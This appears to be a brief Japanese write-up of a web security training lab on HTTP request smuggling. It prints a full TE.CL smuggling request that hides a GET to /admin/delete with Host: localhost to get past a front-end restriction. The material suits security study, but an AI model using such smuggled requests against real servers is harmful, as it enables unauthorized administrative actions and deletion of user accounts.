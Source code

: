 ![](./images/README_231016_123513.png)

前回のラボと同じような制限はありそうです。 (`localhost`)

まぁもう特に難しいところはないので、あとはやるだけです。

```text
POST / HTTP/1.1
Host: 0a5a00ba043ae64080366298007b002e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

86
GET /admin/delete?username=carlos HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Host: localhost

x=
0


```